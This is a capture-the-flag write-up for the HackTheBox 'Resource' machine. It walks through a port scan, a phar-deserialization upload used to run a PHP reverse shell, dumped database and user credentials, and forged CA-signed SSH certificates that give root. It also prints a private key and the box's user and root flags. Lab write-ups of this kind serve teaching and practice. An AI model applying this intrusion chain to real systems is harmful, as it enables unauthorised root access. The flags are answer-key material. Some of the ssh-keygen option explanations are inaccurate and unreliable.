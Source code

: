 ```yaml
---
title: "HTB: Resource Seasonal Machine"
author: "v3l1d"
date: "2024-08-20"
---
```



![](attachment/3bd70dd5104068e4031e06ac1c61711d.png)

**Port Scan**

```
┌──(kali㉿kali)-[~/HTB/Resource]
└─$ cat scan_Complete 
# Nmap 7.94SVN scan initiated Sun Aug 11 14:52:16 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan_Complete 10.10.11.27
Nmap scan report for 10.10.11.27
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 11 14:52:32 2024 -- 1 IP address (1 host up) scanned in 15.74 seconds
```

Visit http://itrc.ssg.htb/ 



![](attachment/712ccf9b98e3eb82338f1bcde7b3513e.png)

On this page you can open a ticket uploading a zip file containing a reverse shell script in php. You can exploit phar deserialization to handle the shell generated on revshell generator:

![](attachment/f1f2f21551a2817bed9305cd5d124173.png)

![](attachment/c85cade67bf78fd22ea7ffe4c4886d54.png)


Upload the file on ticket system and open up its page:

![](attachment/f50a4431998e612de3034ff616a90414.png)

```
http://itrc.ssg.htb/?page=phar://uploads/0d327960dcada2c40fb3b5c0cc99154b3963ecd4.zip/<phpfilename>
without php extension
```

```shell
$ cd /var/www
$ ls
html
itrc
$ cd itrc
$ ls
admin.php
api
assets
create_ticket.php
dashboard.php
db.php
filter.inc.php
footer.inc.php
header.inc.php
home.php
index.php
loggedin.php
login.php
logout.php
register.php
savefile.inc.php
ticket.php
ticket_section.inc.php
uploads
$ cat db.php    
<?php
$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}$ 

```

Credentials found here didn't work neither for ssh or others.
This box looks always broken so i decided to look a writeup and found out that should be present a file in /uploads folder of itrc that i don't have:

![](attachment/836cab1aee6922d645e447bf11a51d46.png)

```
Credentials:
msainristil:82yards2closeit
```

![](attachment/334f5c9284c02ea18b054c4959331e94.png)

In the decommisions_old_ca folder there is priv/pub key pair, that we are going to convert into ssh keys.

```
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -n zzinter -I kali keypair.pub 
```


![](attachment/865cfe3a7e89dbf3d5425f2b30dc78e3.png)

When i was www-data i noted that was a port listening on 127.0.0.11, this usuaylly means that we are in adocker container, so trough linpeas i  had a tip about this. Then i used deepce and got:

![](attachment/c3bd47cec612c42278a478ca983b2cd1.png)

RABBIT HOLE, try hard on SSH: https://shivamaharjan.medium.com/ssh-cas-and-principals-630a433d76d6

```
ssh-keygen -t ecdsa -C "The CA" -N "" -f root_key
ssh-keygen -s ./ca-itrc -I CA-signing -n msainristil,zzinter,root -V +1w -z 1 ./root_key.pub

Copy with scp generated files and:

──(kali㉿kali)-[~/HTB/Resource]
└─$ ssh -o CertificateFile=root_key-cert.pub -i root_key root@10.10.11.27            
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@itrc:~# ls
```

Even if we logged as root, there's no root flag, so download **sign_key_api.sh** file.

![](attachment/922daa0e3bdaddd8a0a3093c42c89b9f.png)

![](attachment/09598aa1ce18ac9b5f233eecf3a06a09.png)

From zzinter ssh scp this file: **sign_key_api.sh** and modify the file with vim appending **zzinter_temp** and **root_user** as are present in ssh_principals of the box. This is visible generating a public cert for support@ssg.

![](attachment/f1ae315604077afbaba6cfce52ee1e7c.png)

Now sign the private key we obtained with the script, generating a certificate signed 

```
┌──(kali㉿kali)-[~/HTB/Resource/zzinter_keys]
└─$ ./sign_key_api.sh keypair.pub zzinter zzinter_temp > zzinter.cert
```

From a writeup (i needed help) i recover this key that we will use a certificate to generate root ssh-key. Pasted it in root_ssh.cert file
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW 
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc 
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ 
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA 
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV 
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Then login as root on your kali and sign a the private key using this certificate i provided

```
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub
Signed user key keypair-cert.pub: id "root" serial 1 for root_user valid after 2024-08-13T13:24:56
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -f keypair-cert.pub -e > root_keypair
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh -o CertificateFile=keypair-cert.pub -i keypair root@10.10.11.27 -p 2222

```

```
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair //Extract the pub key from private // OR
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub //Use Directly the pub key
```

This command generates a signed SSH user certificate using the `ssh-keygen` tool. Here's what each option does:

- -s root_ssh.cert`: specifies the CA certificate file to use for signing (not shown in the output, but assumed to exist).
- -z 1`: specifies the serial number of the certificate (in this case, 1).
- `-I root`: specifies the principal identity of the certificate (in this case, "root").
- `-V -1W:forever`: specifies the validity period of the certificate (in this case, forever, starting from the current time).
- `-n root_user`: specifies the username of the certificate (in this case, "root_user").
- `keypair.pub`: specifies the output file for the generated public key.

The resulting certificate is stored in `keypair-cert.pub`.

**Flags**
![](attachment/d9314cee50c28c2118e10e586b1ea6b8.png)


```
user: 98a79086fe46218a7edd6abc87eb54f3
root: 495f767f17cf87214179384c1f145b91
```
